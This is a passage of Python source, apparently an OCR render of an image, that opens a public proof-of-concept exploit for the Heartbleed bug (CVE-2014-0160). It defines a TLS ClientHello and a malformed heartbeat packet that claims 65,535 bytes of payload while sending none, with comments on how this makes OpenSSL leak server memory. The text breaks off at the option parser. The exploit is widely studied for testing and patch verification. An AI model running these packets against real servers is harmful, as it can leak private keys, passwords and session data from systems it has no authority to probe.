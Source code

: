 **Python code:**

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
#!/usr/bin/python

# Quick and dirty demonstration of CVE-2014-0160 by Jared Stafford (jspenguin@jspenguin.org)
# The author disclaims copyright to this source code.
  
import sys
import struct
import socket
import time
import select
from optparse import OptionParser
  
# ClientHello
helloPacket = (
'16 03 02 00 31'    # Content type = 16 (handshake message); Version = 03 02; Packet length = 00 31
'01 00 00 2d'       # Message type = 01 (client hello); Length = 00 00 2d

'03 02'             # Client version = 03 02 (TLS 1.1)

# Random (uint32 time followed by 28 random bytes):
'50 0b af bb b7 5a b8 3e f0 ab 9a e3 f3 9c 63 15 33 41 37 ac fd 6c 18 1a 24 60 dc 49 67 c2 fd 96'
'00'                # Session id = 00
'00 04 '            # Cipher suite length
'00 33 c0 11'       # 4 cipher suites
'01'                # Compression methods length
'00'                # Compression method 0: no compression = 0
'00 00'             # Extensions length = 0
).replace(' ', '').decode('hex')


 

# This is the packet that triggers the memory over-read.
# The heartbeat protocol works by returning to the client the same data that was sent;
# that is, if we send "abcd" the server will return "abcd".

# The flaw is triggered when we tell the server that we are sending a message that is X bytes long
# (64 kB in this case), but we send a shorter message; OpenSSL won't check if we really sent the X bytes of data.

# The server will store our message, then read the X bytes of data from its memory
# (it reads the memory region where our message is supposedly stored) and send that read message back.

# Because we didn't send any message at all
# (we just told that we sent FF FF bytes, but no message was sent after that)
# when OpenSSL receives our message, it wont overwrite any of OpenSSL's memory.
# Because of that, the received message will contain X bytes of actual OpenSSL memory.


heartbleedPacket = (
'18 03 02 00 03'    # Content type = 18 (heartbeat message); Version = 03 02; Packet length = 00 03
'01 FF FF'          # Heartbeat message type = 01 (request); Payload length = FF FF
                    # Missing a message that is supposed to be FF FF bytes long
).replace(' ', '').decode('hex')



options = OptionParser(usage='%prog server [options]', description='Test for SSL heartbeat vulnerability (CVE-2014-0160)')
options.add_option('-p', '--port', type='int', default=443, help='TCP port to test (default: 443)')
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~